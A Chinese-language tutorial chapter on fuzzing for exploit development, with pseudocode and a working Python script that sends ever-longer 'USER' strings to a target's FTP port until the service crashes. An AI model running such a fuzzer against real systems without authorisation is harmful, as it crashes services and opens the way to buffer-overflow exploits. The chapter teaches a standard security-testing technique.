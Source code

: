 # 模糊测试

## 模糊测试

这一章将会演示教你如何写一个属于自己的模糊测试脚本，当我们进行 exploit 研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据数据很容易引发应用程序崩溃掉。而 Python 却不同，当程序崩溃你与程序断开连接了，Python 脚本会马上建立一个新的连接去继续测试。

下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过 while 循环语句来判断是否成功，即使出现错误也会处理掉:

下面是我们的一个扫描器的伪代码:

```
 #导入 socket,sys 模块，如果是 web 服务那么还需要导入 httplib,urllib 等模块
 <import modules> 

#设置 ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]

#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50

#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到 50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash" 
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(https,http,mysql,sshd)编写特定模糊测试脚本.下面我们演示一个基于"USER"命令的 ftp 服务器模糊测试脚本:

```
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep

#声明第一个变量 target 用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建 50 个 A 的字符串 '\x41'
buff = '\x41'*50

# 使用循环来递增至声明 buff 变量的长度 50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的 ftp 端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)

    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER 并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为 50
    buff = buff + '\x41'*50

  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit() 
```

上面这段代码演示了一个基本的模糊测试脚本，但是值得注意的是你的脚本发送'\x41'可能不能让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).还有一个更加高级的模糊测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试更多的数据，并且让你能够攻击成功.最好布置一个练习:大家可以把上面的 ftp 测试换成 http 测试，这里提示:你可能需要使用 httplib/urllib.